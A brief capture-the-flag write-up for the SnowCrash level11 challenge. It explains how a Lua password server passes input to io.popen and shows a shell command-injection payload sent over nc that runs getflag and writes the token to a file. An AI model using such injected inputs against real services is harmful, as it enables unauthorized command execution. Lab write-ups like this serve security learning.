 In the home directory you have the file `level11.lua`, understanding a little bit the code, we can see that its just a server which asks for a password and then checks it by processing it with `sha1sum`, supposing that it's running as a daemon, we can exploit the `io.popen` which launches a system command by calling get flag and saving it to a file:

``` shell
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > /tmp/token.txt #
Erf nope..
level11@SnowCrash:~$ cat /tmp/token.txt
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
